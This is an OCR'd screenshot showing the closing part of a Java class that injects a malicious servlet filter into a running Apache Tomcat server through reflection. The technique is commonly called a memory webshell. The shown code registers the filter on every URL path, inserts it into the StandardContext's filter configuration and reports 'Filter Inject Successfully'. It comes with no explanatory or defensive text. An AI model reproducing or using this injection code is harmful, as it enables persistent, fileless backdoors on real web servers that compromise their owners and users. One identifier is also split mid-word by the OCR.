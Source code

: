 ```java
                };

                //Reflection gets FilterDef, sets filter name and other parameters, call addFilterDef to add FilterDef
                Class<?> filterDef = Class.forName("org.apache.tomcat.util.descriptor.web.FilterDef");
                Constructor<?> filterDefDeclaredConstructor = filterDef.getDeclaredConstructor();
                filterDefDeclaredConstructor.setAccessible(true);
                FilterDef filterDef1 = (Filte
rDef) filterDefDeclaredConstructor.newInstance();
                filterDef1.setFilter(filter);
                filterDef1.setFilterName(filterName);
                filterDef1.setFilterClass(filter.getClass().getName());
                standardContext.addFilterDef(filterDef1);

                //Reflection gets FilterMap and sets the intercept path, call addFilterMapBefore to add FilterMap
                Class<?> filterMap = Class.forName("org.apache.tomcat.util.descriptor.web.FilterMap");
                Constructor<?> filterMapDeclaredConstructor = filterMap.getDeclaredConstructor();
                filterMapDeclaredConstructor.setAccessible(true);
                FilterMap filterMap1 = (FilterMap) filterMapDeclaredConstructor.newInstance();
                filterMap1.addURLPattern("/*");
                filterMap1.setFilterName(filterName);
                filterMap1.setDispatcher(DispatcherType.REQUEST.name());
                standardContext.addFilterMapBefore(filterMap1);

                // Reflection to get ApplicationFilterConfig
                Class<?> applicationFilterConfig = Class.forName("org.apache.catalina.core.ApplicationFilterConfig");
                Constructor<?> applicationFilterConfigDeclaredConstructor = applicationFilterConfig.getDeclaredConstructor(Context.class, FilterDef.class);
                applicationFilterConfigDeclaredConstructor.setAccessible(true);
                ApplicationFilterConfig applicationFilterConfig1 = (ApplicationFilterConfig) applicationFilterConfigDeclaredConstructor.newInstance(standardContext, filterDef1);

                // Add malicious FilterConfig to FilterConfigs obtained from StandardContext
                filterConfigsMap.put(filterName, applicationFilterConfig1);
                response.getWriter().write("Filter Inject Successfully...");
            }
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```
